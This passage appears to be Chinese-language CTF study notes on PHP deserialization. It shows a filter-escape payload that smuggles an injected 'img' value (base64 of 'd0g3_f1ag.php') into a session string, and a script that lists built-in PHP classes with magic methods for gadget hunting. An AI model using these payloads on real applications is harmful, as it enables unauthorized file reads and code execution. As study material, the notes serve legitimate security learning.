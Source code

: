 ```php
过滤前:
a:3:{s:4:"user";s:24:"flagflagflagflagflagflag";s:8:"function";s:64:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"khaz";s:4:"haha";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
过滤后:
a:3:{s:4:"user";s:24:"";s:8:"function";s:64:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"khaz";s:4:"haha";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}

E:\xampp2\php\www\2.php:19:
array(3) {
  'user' =>
  string(24) "";s:8:"function";s:64:"a"
  'img' =>
  string(20) "ZDBnM19mMWFnLnBocA=="
  'khaz' =>
  string(4) "haha"

```

```php
s:4:"khaz";s:4:"haha";添加了这个是因为$_SESSION有三个值(a:3),数量要对的上才能反序列化
s:4:"user";s:24:"";s:8:"function";s:64:"a";
s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";
s:4:"khaz";s:4:"haha";
```





# 原生类利用

## 常见场景

```php
echo new $this->key($this->value);
```



## 获取指定方法的原生类

```php
<?php
$classes = get_declared_classes(); foreach ($classes as $class) {
    $methods = get_class_methods($class); foreach ($methods as $method) {
        if (in_array($method, array( '__destruct',
        '__toString', '__wakeup',
        '__call',
        '__callStatic', '__get',
        '__set',
        '__isset',
        '__unset', '__invoke',
        '__set_state'	
        ))) {
    		print $class . '::' . $method . "\n";
    		}
    }
}
?>
```
